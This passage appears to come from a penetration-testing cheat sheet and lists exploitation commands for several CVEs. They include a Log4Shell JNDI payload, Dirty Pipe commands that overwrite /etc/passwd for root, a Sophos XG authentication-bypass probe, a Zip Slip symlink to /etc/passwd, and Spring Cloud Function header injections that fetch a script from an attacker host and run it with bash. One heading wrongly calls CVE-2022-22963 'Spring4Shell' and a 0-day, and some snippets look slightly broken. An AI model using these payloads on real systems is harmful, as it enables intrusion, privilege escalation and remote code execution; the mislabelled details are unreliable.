 ##### Execution

```console
${jndi:ldap://<LHOST>:1389/foobar}
```

## CVE-2022-0847: Dirty Pipe LPE

```console
$ gcc -o dirtypipe dirtypipe.c
$ ./dirtypipe /etc/passwd 1 ootz:
$ su rootz
```

## CVE-2022-1040: Sophos XG Firewall Authentication Bypass RCE

```console
$ curl -sk -H "X-Requested-With: XMLHttpRequest" -X POST 'https://<RHOST>/userportal/Controller?mode=8700&operation=1&datagrid=179&json=\{"x":"foobar"\}' | grep -q 'Session Expired'
```

## CVE-2022-21675: Zip Slip

```console
$ ln -s ../../../../../../../../../../etc/passwd <FILE>.pdf
$ zip --symlink <FILE>.zip <FILE>.pdf
$ curl http://<RHOST>/<FILE>.pdf
```

## CVE-2022-22963: Spring4Shell RCE (0-day)

> https://github.com/me2nuk/CVE-2022-22963

```console
$ curl -X POST http://<RHOST>/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl <LHOST>/<FILE>.sh -o /dev/shm/<FILE>")' --data-raw 'data' -v
```

```console
$ curl -X POST http://<RHOST>/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /dev/shm/<FILE>")' --data-raw 'data' -v
```

## CVE-2022-24439: GitPython RCE

> https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

A script could be vulnerable if it calls `protocol.ext.allow`.

```python
from git import Repo

r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

